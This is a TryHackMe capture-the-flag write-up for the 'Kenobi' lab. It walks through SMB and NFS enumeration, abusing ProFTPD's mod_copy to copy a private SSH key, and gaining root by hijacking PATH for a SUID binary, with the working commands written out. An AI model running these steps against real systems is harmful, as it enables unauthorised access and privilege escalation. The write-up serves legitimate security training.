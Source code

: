 # Kenobi \(L\) \(wlk\)

_TryHackMe_ - [**Kenobi**](https://tryhackme.com/room/kenobi) Write-Up

_topics:_ enumerate Samba for shares, manipulate vulnerable version of proftpd, privesc with path var manipulation

## 1\) Enumeration \(nmap\)

* `nmap  -vvv`: lists only all open ports
  * 7 open ports

    2.1\) Enumerating Samba
* Samba is the interoperability of Windows and Unix, often refered to as a network file system. It frequently uses Server Message Block protocol \(SMB\) that runs on port 445 and 139. 
* using nmaps default scripts, we can detect how many SMB shares \(directories\) the server is using
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse` __: returns 3 shares 
* _smbclient_: installed on most Linux machines, used to inspect smb shares
  * `smbclient smb://ip/share`: takes you to system, asks for password but hit ENTER, there is none. Simple ls shows there is a log.txt file located on the share. 
  * SMB shares can be recursively downloaded to inspect the contents. `smbget -R smb://ip/anonymous`
  * `mousepad log.txt` shows that there is information generated for Kenobi's SSH user key and ProFTPD server
* The most interesting find here is that **remote procedure call \(RPC\)** is open on port 111. It's a server that converts RPC program number into universal addresses. Once RPC starts it tells rpcbind the address where it is listening and the RPC program number it's serving. Access into the network file system. 
* `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount` __: reveals mounted at /var

## 2\) Obtain Access

* to find which version ProFTPd is running, use netcat to listen on FTP port. _nc_  
* **searchsploit** can be used to find exploits on exploit-db.com for a particular software version
  * `searchsploit proftpd` __
  * the exploit _mod\_copy_ will be most appropriate. It implements the SITE CPFR and SITE CPTO commands, which are used to copy files & directories between paths on the server. An unauthenticated client can abuse these commands to copy files from any path to another. 
* following this, use the commands to copy the private key. We already know the /var directory was mounted so we move it to /var/tmp/id\_rsa. _SITE CPFR_ , _SITE CPTO /var/tmp/id\_rsa_    
* mount the directory to our machine `mkdir /mnt/kenobiNFS; mount :/var /mnt/kenobiNFS; ls`
* go to /var/tmp to get the key and login

`cp /mnt/kenobiNFS/id_rsa .`

`chmod 600 id_rsa`

`ssh -i id_rsa kenobi@ip`

## 3\) root

* SUID needs to be used by some binaries such as passwd \(needs to reset password on system\) but custom files with the SUID bit are dangerous and can be used to exploit privileges.
* search for all SUID files `find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null`
  * _/usr/bin/menu_ is unusual because menu is not a binary file
* the _strings_ command parses for human readable strings in a binary. 
  * this returns `curl -I localhost`_,_ `uname -r`_, ifconfig_ which means the binary is running other binaries without a full path \(not using /usr/bin/curl or /usr/bin/uname\), because this file is SUID \(e.g running with **root** privileges\) the path can be manipulated to gain a root shell
* copy the default shell _/bin/sh_ and call it curl. Change permissions and put its location in the PATH. When the /usr/bin/menu binary runs, it will use our path variable to find the 'curl' binary which is actually _/bin/sh_ because the file is run as root, so is our shell. 
* cd to /tmp 

`echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

`select 1` 

`cat /root/root.txt`

